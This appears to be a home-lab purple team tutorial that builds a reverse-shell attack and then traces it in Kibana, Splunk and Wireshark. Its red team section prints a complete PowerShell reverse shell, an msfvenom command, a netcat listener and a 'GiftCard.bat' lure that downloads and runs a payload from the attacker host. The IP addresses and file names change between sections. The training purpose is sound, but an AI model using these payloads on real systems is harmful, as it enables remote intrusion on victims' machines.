

# Purple Team Exercise 1

## Summary

We will begin this exercise by conducting an attack that includes establishing a reverse shell and running simple enumeration commands. Then we will use our SIEM and Wireshark to analyze the incident and ensure we are able to detect it. This exercise assumes that at a minimum you have a Kali/Kali Purple and a Windows VM and Elastic and/or Splunk set up in your lab. If not, you can install Splunk on your victim VM.   

## Background

A cybersecurity purple team exercise is a collaborative security testing approach that involves both red team (attackers) and blue team (defenders) working together. The goal is to improve an organization's overall security posture by simulating realistic cyberattacks and testing the effectiveness of incident response and hunting measures. **We will be playing both roles red and blue.**

In a purple team exercise, the red team attempts to penetrate the organization's defenses using various attack techniques, while the blue team attempts to detect and defend against these attacks. Unlike a traditional red team exercise where the blue team is unaware of the attacks, in a purple team exercise, there is more transparency and communication between the two teams.

The purple team exercise helps organizations:

1. Identify and address vulnerabilities in their security controls.
2. Improve incident response capabilities by practicing real-world scenarios.
3. Enhance communication and collaboration between security teams.
4. Validate the effectiveness of existing security measures.

Overall, the goal of a purple team exercise is to strengthen an organization's security posture by learning from simulated attacks and improving defenses based on the insights gained during the exercise. 

## Exercise Setup

This exercise assumes your home lab is running with Elastic installed on Kali Purple and a Windows VM with the “Elastic Defend” and “Windows” integrations installed. If you do not have a functional home lab, see Alternative Lab Setup document.

## Red Team

We will create a .bat file, GiftCard.bat, that executes PowerShell and launch it from the victim’s Desktop. The file downloads a reverse shell from the IP address of our Kali Purple VM. We will then enumerate the host by running various commands such as whoami, ipconfig /all, netstat -nao, and systeminfo.  

### Kali Purple Setup

1) Create a reverse shell using msfvenom using the command below. *Use the IP address of **your** Kali Purple VM.

```powershell
msfvenom -p cmd/windows/reverse_powershell lhost=10.0.1.17 lport=1337 > shell.txt
```

This command uses the **`msfvenom`** tool from the Metasploit framework to generate a Windows shellcode that creates a reverse PowerShell shell. Let's break down the command:

- **`p cmd/windows/reverse_powershell`**: Specifies the payload to use, which in this case is a reverse PowerShell shell for Windows.
- **`lhost=10.0.1.17`**: Specifies the IP address of the attacker's machine (the listening host) to which the reverse shell will connect back.
- **`lport=1337`**: Specifies the port on the attacker's machine to which the reverse shell will connect.
- **`> shell.txt`**: Redirects the output of the command (the generated shellcode) to a file named **`shell.txt`**.

So, this command generates a PowerShell command that, when executed on a target Windows machine, will establish a reverse shell back to the attacker's machine on IP address 10.0.1.17, port 1337.


**reverse shell script shown below**

```powershell
powershell -w hidden -nop -c $a='10.0.1.17';$b=1337;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) { start-sleep -m 100; if ($osread.IsCompleted -and $osread.Result -ne 0) { $r=$os.BaseStream.EndRead($osread); $s.Write($ob,0,$r); $s.Flush(); $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null); } if ($esread.IsCompleted -and $esread.Result -ne 0) { $r=$es.BaseStream.EndRead($esread); $s.Write($eb,0,$r); $s.Flush(); $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null); } if ($s.DataAvailable) { $r=$s.Read($nb,0,$nb.Length); if ($r -lt 1) { break; } else { $str=$e.GetString($nb,0,$r); $is.write($str); } } if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) { break; } if ($p.ExitCode -ne $null) { break; }}
```

**Here's a breakdown of the reverse shell script:**

1. **Setting up variables:**
    - **`$a`**: IP address to connect to (**`10.0.1.17`**).
    - **`$b`**: Port number to connect to (**`1337`**).
    - **`$c`**: TCP client object.
    - **`$nb`**: Byte array for receiving data from the network stream.
    - **`$ob`**: Byte array for storing output from the local process.
    - **`$eb`**: Byte array for storing error output from the local process.
    - **`$e`**: UTF-8 encoding object.
    - **`$p`**: Process object for **`cmd.exe`**.
2. **Connecting to the remote host:**
    - Establishes a TCP connection to the specified IP address and port.
3. **Setting up input/output streams for `cmd.exe`:**
    - Redirects the standard input, output, and error streams of the **`cmd.exe`** process.
4. **Starting the `cmd.exe` process:**
    - Starts the **`cmd.exe`** process with the configured settings.
5. **Reading and Writing Loop:**
    - Enters into an infinite loop that continually checks for data to read or write.
    - If there is data available from the local process's standard output or error streams, it is sent to the remote host.
    - If there is data available from the remote host, it is written to the standard input of the local process (**`cmd.exe`**).
    - The loop also checks for the termination conditions:
        - If the connection is closed (**`$c.Connected -ne $true`**).
        - If there is no data to read from the local process's standard output or error streams.
        - If the local process (**`cmd.exe`**) exits.

In summary, this script is a simple reverse shell that connects to a specified IP address and port, establishes a command prompt (**`cmd.exe`**), and allows for remote command execution. 

2) Stand up a simple webserver on your Kali Purple VM using the command below.

```powershell
python3 -m http.server
```

3) In a different terminal on your Kali Purple VM, install netcat using the command below.

```powershell
sudo apt install netcat-traditional
```

4) Set up a netcat listener on port 1337 using the command below.

```powershell
nc -lvp 1337 
```

### Windows Victim Setup

Create the following bat file by copying and pasting the code below into a notepad++/ notepad file on your Windows VM and saving the file as “GiftCard.bat”.

```powershell
@ECHO off
powershell -Command "Invoke-WebRequest -URI [http://192.168.1.198:8000/shell.](http://192.168.8.151:8000/shell.bat)txt -OutFile c:\Windows\Temp\shell.bat; c:\Windows\Temp\shell.bat"
```

Start Wireshark and choose the Ethernet adaptor and select the shark fin to begin the packet capture.


## Attack Execution

If you are using Splunk, enable log ingestion.

Select the Settings dropdown and the select “Data inputs” from the Data section.


Then select “Remote event log collections”.


Enable “Microsoft-Windows-Sysmon/Operational, WEC-Sysmon”


1) Double-click GiftCard.bat on the victim. 


2) The webserver delivers the reverse shell, as seen in the screenshot below.


3) The netcat listener receives the shell, as seen in the screenshot below.


4) Interact with the victim VM by running basic enumeration commands.


5) On the victim VM, stop and save the packet capture. 

## Blue Team

The two main sources of information you have to analyze the incident is the pcap and the logs ingested into the SIEM (Elastic or Splunk).

Typically, an investigation into a similar incident is triggered because an outbound connection to a suspicious IP address. In this incident assume that the IP address 192.168.1.198 is a known suspicious IP address.

We will begin our investigation in our SIEM.

## Using Kibana


Set your filters for Sysmon and PowerShell.


Set the time picker for the time of the incident (alert).


Since we know the suspicious IP address, do a simple text search for 192.168.1.198.

Set your columns for your table. 


As seen above there were 22 hits and most appear to be related to PowerShell. Since we are logging PowerShell we can see the actual PowerShell commands.


We can use a technique known as “following the bread crumbs” to pivot from the parent process ID 18436 by running a query with it as the process ID. 


As seen above we see the cmd.exe executed a file named Coupon.bat. 

Going back to the process ID of PowerShell (19188). We will do a query for that processID as the parent process ID to determine if it spawned any additional activity. 


As seen above, PowerShell spawned cmd.exe which executed a file named “shell.bat”. We can also see shell.bat was executed inside a Temp directory, which is not normal.   

We can continue to follow the breadcrumbs by pivoting from the process ID of cmd.exe (19424) as a parent process ID to see if it spawned any other activity. As seen below it spawned a very suspicious PowerShell script.

 


Analysis of the PowerShell script shows that it sets up a reverse shell. Here's a breakdown of what it does:

1. Sets the IP address and port of the attacker's machine (**`$a='192.168.1.198';$b=1337;`**).
2. Creates a TCP client object to connect back to the attacker's machine (**`$c=New-Object system.net.sockets.tcpclient;`**).
3. Sets up byte arrays for reading from the standard output and error of the command shell (**`$ob`** and **`$eb`**).
4. Creates a UTF-8 encoding object for handling text encoding (**`$e=new-object System.Text.UTF8Encoding;`**).
5. Creates a new process object for running the command shell (**`$p=New-Object System.Diagnostics.Process;`**).
6. Configures the process to redirect standard input, output, and error streams (**`$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;`**).
7. Starts the command shell process (**`$q=$p.Start();`**).
8. Sets up streams for reading from the command shell's standard output and error streams (**`$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;`**).
9. Sets up asynchronous reads for the standard output and error streams of the command shell (**`$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);`**).
10. Connects to the attacker's machine using the TCP client (**`$c.connect($a,$b);`**).
11. Sets up a loop to continuously read from the command shell's output streams and send data back to the attacker's machine over the TCP connection.

Overall, this script creates a reverse shell that allows an attacker to execute commands on the target machine and receive the output back on their own machine.

We now know that a reverse shell was established with the suspicious IP address.

Continuing to follow the bread crumbs we search to see if the PowerShell script that launched the reverse shell spawned any other activity and we see it did create another instance of cmd.exe.


This is likely the cmd prompt that the attacker is using in the reverse shell. We confirm this by following the breadcrumbs one more time and see the commands that were ran from the attacker box.


At this point we know that a file named Coupon.bat was executed and it spawned PowerShell that called out to the suspicious IP address (192.168.1.198) to download a file called shell.txt; however, we can see from the PowerShell script that when it is written to disk it is called shell.bat and placed in a Temp directory. Later we saw PowerShell spawn cmd.exe that executed shell.bat, which used PowerShell to create a reverse shell. Lastly, we saw cmd.exe execute four enumeration commands; whoami, ipconfig, netstat, and systeminfo.  The attacker now knows a lot about the system and can decide if he/she wants to deploy additional malware, a C2 beacon, or conduct further reconnaissance. 

We should continue to investigate by analyzing the packet trace.

## Using Splunk

The methodology we used with Kibana will be the same in Splunk; however, the syntax will be different. We will also use a Splunk app that is not available with Kibana. 

First set the time range.


Using the same information (suspicious IP address 192.168.1.198) we will do our first query for that IP address.

```powershell
10.0.1.17 | table _time, EventID, EventDescription, Image, process, process_guid, parent_process, parent_process_guid
```


As seen above, we discovered much of the same information we did in Kibana.

We will now use a Splunk app called pstree that creates a process tree in one command that gives us the same information we discovered in Kibana by “following the bread crumbs”. The pstree command requires two arguments, child and parent. The command is intended for sysmon EventCode=1 events but can be used for anything. The command returns a row for each root value with a multivalue field, "tree", containing the root value and all children's values. 

Use the command below, exchanging the host with the hostname of your victim machine.

```powershell
EventCode=1 host=WINDOWSVA
| rex field=ParentImage "\x5c(?<ParentName>[^\x5c]+)$"
| rex field=Image "\x5c(?<ProcessName>[^\x5c]+)$"
| eval parent = ParentName." (".ParentProcessId.")"
| eval child = ProcessName." (".ProcessId.")"
| eval detail=strftime(_time,"%Y-%m-%d %H:%M:%S")." ".CommandLine
| pstree child=child parent=parent detail=detail spaces=50
| table tree
```


As seen above, that command produced a detailed timeline of events that took multiple searches using the “follow the bread crumb technique” in Kibana. Note that this command will only show the parent/child relationships. It may not be efficient in other investigations; however, in this investigation it did most of the work for us.


## Using WireShark

Open the pcap file collected during the attack phase and apply a filter for the suspicious IP address (192.168.1.198). Upon closer analysis we see an artificiality introduced. Since our Elastic agent is sending logs to the same IP address (the attack machine is dual purposed as the Elastic server) we need to filter out port 9200 (the port used to send logs to Elastic). Type the filter below in WireShark.

```powershell
ip.addr==192.168.1.198 and !tcp.port==9200 
```



Right away we see the use of non-standard ports that should get our attention (ports 1337 and 8000) We can also see more by right clicking the initial GET request and select “Follow-HTTP Stream”. Since this traffic was unencrypted you can see the GET request as well as the response and the contents of shell.txt.

 


Going back to our original filter (ip.addr==192.168.1.198 and !tcp.port==9200 ) We can follow another TCP Stream that shows the commands made from the reverse shell and the responses.

 


We can also carve the shell.txt file from the packet trace by selecting File →Export Objects → HTTP.


Select Save. 

We can then analyze the file. In this case we know it is the reverse shell and we have already analyzed it because we had PowerShell logging enabled.

## Conclusion

We were able to discover everything that happened by using a combination of a SIEM (Elastic and/or Splunk) and packet analysis using WireShark.  This incident was relatively simple, but the same principles apply to more complex incidents. 

# Detections

## Elastic

```jsx
sequence by [host.id](http://host.id/) with maxspan=60s
[process where [process.name](http://process.name/) == "whoami.exe"]
[process where [process.name](http://process.name/) == "ipconfig.exe"]
[process where [process.name](http://process.name/) == "systeminfo.exe"]
```

### **1️⃣ `sequence by host.id`**

- The **`sequence`** operator tells Elastic to look for a **series of events that occur in a defined order**.
- The **`by host.id`** ensures that the detection **groups events per individual host** (so events across multiple machines don’t trigger a false alert).

### **2️⃣ `with maxspan=60s`**

- Limits the time window:
    - The three processes must execute **within a 60-second timeframe**.
    - If they occur outside of 60 seconds, the rule will not trigger.

### **3️⃣ `[process where process.name == "whoami.exe"]`**

- Looks for a process execution event where `whoami.exe` is launched.
    - **Purpose**: Identifies which user is currently logged in.

### **4️⃣ `[process where process.name == "ipconfig.exe"]`**

- Looks for a process execution event where `ipconfig.exe` is launched.
    - **Purpose**: Retrieves network configuration details.

### **5️⃣ `[process where process.name == "systeminfo.exe"]`**

- Looks for a process execution event where `systeminfo.exe` is launched.
    - **Purpose**: Gathers system information such as OS, architecture, and installed updates.

```jsx
sequence by [host.id](http://host.id/) with maxspan=60s
[process where [process.name](http://process.name/) == "powershell.exe"]
[network where [process.name](http://process.name/) == "powershell.exe" and destination.ip != "127.0.0.1"]
```

### **1️⃣ `sequence by host.id`**

- The **`sequence`** operator tells Elastic to **track events happening in a specific order**.
- The **`by host.id`** groups events per individual host, so that network activity is **linked to the same machine**.

### **2️⃣ `with maxspan=60s`**

- Limits the time window:
    - The two events must happen **within 60 seconds of each other** for the rule to trigger.
    - If `powershell.exe` starts but doesn’t make a network request within 60 seconds, the sequence will not match.

### **3️⃣ `[process where process.name == "powershell.exe"]`**

- Looks for a **PowerShell execution event**.
- This could be **benign or malicious**, but PowerShell is frequently used in attacks.

### **4️⃣ `[network where process.name == "powershell.exe" and destination.ip != "127.0.0.1"]`**

- Looks for a **network connection initiated by PowerShell**.
- **Excludes local (loopback) connections** (`127.0.0.1`).
- This ensures we are detecting **external network activity**, which could indicate:
    - **Command & Control (C2) traffic**
    - **Data exfiltration**
    - **Downloading a malicious payload**

## Splunk

```jsx
sourcetype=xmlwineventlog process_name IN ("whoami.exe", "ipconfig.exe", "systeminfo.exe")
| transaction host maxspan=60s
| where mvcount(process_name) == 3
```

### **1️⃣ `sourcetype=xmlwineventlog index=your_index sourcetype=your_sourcetype`**

- **Filters logs to only include events from Windows Event Logs** (typically from Sysmon or Security logs).
- You should replace `your_index` and `your_sourcetype` with the correct values for your Splunk setup.

### **2️⃣ `process_name IN ("whoami.exe", "ipconfig.exe", "systeminfo.exe")`**

- Filters logs to only include events where the `process_name` is **whoami.exe**, **ipconfig.exe**, or **systeminfo.exe**.
- These three commands are often used in **reconnaissance activity**.

### **3️⃣ `| transaction host maxspan=60s`**

- Groups together all events **from the same host** (`host` field).
- The **`maxspan=60s`** ensures that the grouped events **must occur within 60 seconds**.
- **Transaction** combines events into one event when they have the same **host**, treating them as part of the same activity.

### **4️⃣ `| where mvcount(process_name) == 3`**

- **`mvcount(process_name)`** counts the number of unique process names in each transaction.
- **Triggers only when all three commands (`whoami.exe`, `ipconfig.exe`, and `systeminfo.exe`) were executed within 60 seconds**.

```jsx
sourcetype=xmlwineventlog process_name="powershell.exe" EventCode=3 DestinationIp!=127.0.0.1

```

### **1️⃣ `sourcetype=xmlwineventlog`**

- Filters logs to **Windows Event Logs in XML format**.
- This is commonly used with **Windows Sysmon** or **Security Event Logs**.

### **2️⃣ `process_name="powershell.exe"`**

- Filters events where **PowerShell (`powershell.exe`) is the executing process**.

### **3️⃣ `EventCode=3`**

- **Event Code 3** in Windows **indicates a network connection event**.
- This is specifically from **Sysmon Event ID 3 (Network Connection)**.
- It logs when a process establishes a network connection.

### **4️⃣ `DestinationIp!=127.0.0.1`**

- **Excludes loopback traffic (127.0.0.1)**.
- Ensures we are **only detecting external network connections**.

## Appendix: Sysmon EventIDs

| ID | Tag | Event |
| --- | --- | --- |
| **1** | ProcessCreate | Process Create |
| **2** | FileCreateTime | File creation time |
| **3** | NetworkConnect | Network connection detected |
| **4** | n/a | Sysmon service state change (cannot be filtered) |
| **5** | ProcessTerminate | Process terminated |
| **6** | DriverLoad | Driver Loaded |
| **7** | ImageLoad | Image loaded |
| **8** | CreateRemoteThread | CreateRemoteThread detected |
| **9** | RawAccessRead | RawAccessRead detected |
| **10** | ProcessAccess | Process accessed |
| **11** | FileCreate | File created |
| **12** | RegistryEvent | Registry object added or deleted |
| **13** | RegistryEvent | Registry value set |
| **14** | RegistryEvent | Registry object renamed |
| **15** | FileCreateStreamHash | File stream created |
| **16** | n/a | Sysmon configuration change (cannot be filtered) |
| **17** | PipeEvent | Named pipe created |
| **18** | PipeEvent | Named pipe connected |
| **19** | WmiEvent | WMI filter |
| **20** | WmiEvent | WMI consumer |
| **21** | WmiEvent | WMI consumer filter |
| **22** | DNSQuery | DNS query |
| **23** | FileDelete | File Delete archived |
| **24** | ClipboardChange | New content in the clipboard |
| **25** | ProcessTampering | Process image change |
| **26** | FileDeleteDetected | File Delete logged |
| **27** | FileBlockExecutable | File Block Executable |
| **28** | FileBlockShredding | File Block Shredding |
| **29** | FileExecutableDetected | File Executable Detected |